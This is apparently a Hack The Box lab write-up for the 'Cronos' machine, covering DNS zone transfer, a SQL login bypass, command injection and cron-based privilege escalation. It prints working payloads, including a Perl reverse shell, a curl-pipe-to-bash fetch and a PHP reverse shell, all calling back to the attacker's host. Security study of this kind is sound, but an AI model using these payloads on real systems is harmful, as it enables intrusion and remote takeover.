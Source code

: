 # Cronos
> Name: Cronos<br/>
> Difficulty: Medium<br/>
> Solved: 25th June 2021<br/>

## Intro
Cronos is an interesting  Linux (ubuntu) machine. Below is the log of how i approached it.

<br/>

## Enumeration
Lets first scan the box with nmap to see services running. We use below command:<br/>

    `$ nmap -sC -sV -oA nmap/cronos 10.10.10.13`<br/>
    
Above command runs nmap with default scripts `-sC`, version detection `-sV` and creates output in other file formats.
<br/>

The scan gives the following output:

![Nmap Image](./images/cronos_nmap.png)

We have services running on port 22, 53 and 80. We'll check them in detail.

<br/>
First, lets check the website running on port 80. 

![](./images/cronos_apacheDefault.png)

It just gives us a default Apache page. I tried gobuster on it but found no directories. :(

<br/>

Then we turn our attention to port 53, I had no idea about <span id=yellow>ISC BIND service</span>. Searching the internet provided some information.<br/>
Below is a simple description:
> BIND (Berkeley Internet Name Domain) is an open source software that enables you to publish your Domain Name System (DNS) information on the Internet, and to resolve DNS
queries for your users.

Next, Looked at `searchsploit` for any known exploits, spent some time trying them, but none of them worked.

After a while i queried the server for its <u>reverse DNS record</u>, i used below command:<br/>
    `dig @10.10.10.13 -x 10.10.10.13`<br/>

Below we can see, that the server responded:

![](./images/cronos_dig1.png)

Now, we have new domains. So i added <span id=yellow>ns1.cronos.htb</span> and <span id=yellow>cronos.htb</span> to my host file.<br/>

Visiting cronos.htb and ns1.cronos.htb provided with a simple webpage created using Laravel and no further directories were revealed with gobuster .
So this seemed like a dead end. :(

<br/>
Now, since this is a DNS Server, it tried to do <u>zone transfer</u> and it worked. See below:

![](./images/cronos_dig.png)
Consequently, this revealed the admin portal -> <span id=green>admin.cronos.htb</span>


Now i visited admin.cronos.htb and was greeted with a login form as shown below

![](./images/cronos_adminpanel.png)

<br/>
Tried some basic payloads and got in with a simple SQL authentication bypass payload:<br/>
    `admin' or '1'='1'#`  or  `admin' #`     worked for me.
    
We can see the request in Burp for the same
![](./images/cronos_authbypass.png)

<br/>

After the bypass it redirected me to a simple webpage, where two commands  `traceroute` and `ping` could be executed. 

I verified if i could ping my machine, below we can see `tcpdump` capturing ping request coming to our machine.

![](./images/cronos_cmdexecution.png)

Next, it was only natural to try to see if i could get <span id=green>command execution here</span>.<br/>
So i tried the payload `8.8.8.8; ls` and it displayed the contents of web root directory.<br/>Great! We have command execution.

Then i set up a listener on my local machine and ran a reverse shell on the server and got the session.<br/>

![](./images/cronos_perlshell.png)

Perl reverse shell Payload used above:
```perl
8.8.8.8; perl -e 'use Socket;$i="10.10.14.7";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
<br/>

Below we can see, we get a session on our local machine <span id=green>:)</span>

![](./images/cronos_rshell1.png)

Now, we have session to server. we see a home directory of user `noulis` and there we get our `user.txt` <span id=green>flag</span>.

Next task: Privilege escalation.
<br/>
<br/>

## Privilege Escalaiton

Make a local python server and upload the `linEnum.sh` script.<br/>

  Start a local python server  : `$ python -m SimpleHTTPServer 8181`<br/>
  Run this script on Server   : `$ curl http://10.10.14.7/linEnum.sh | bash`
  
![](./images/cronos_linEnum1.png)

<br/>
Spent some times time looking at the output, its a lot. Then came across something <span id=green>interesting:</span>

![](./images/cronos_linEnum1.png)

Above we can see, the PHP script `/var/www/laravel/artisan` is being run as root, which we can modify.

<br/>
Now, we prepare a PHP webshell and upload it to replace the contents of the  script `artisan`. 
```php
#!/usr/bin/env php
<?php
$sock=fsockopen("10.10.14.7",4445);exec("/bin/sh -i <&3 >&3 2>&3");
```
<br/>
Below is detail of steps performed to upload PHP webshell
![](./images/cronos_exploitation.png)

<br/>
Meanwhile, we set up a listener at port `4445`, and wait for shell to execute via cronjob.<br/>
After a minute, got the session and  read the root flag :)

![](./images/cronos_root.png)

<br/>
<span id=green>Cronos is Owned!!!</span>


<br/>

[<< Back](https://grey-fish.github.io/HTB/index.html)
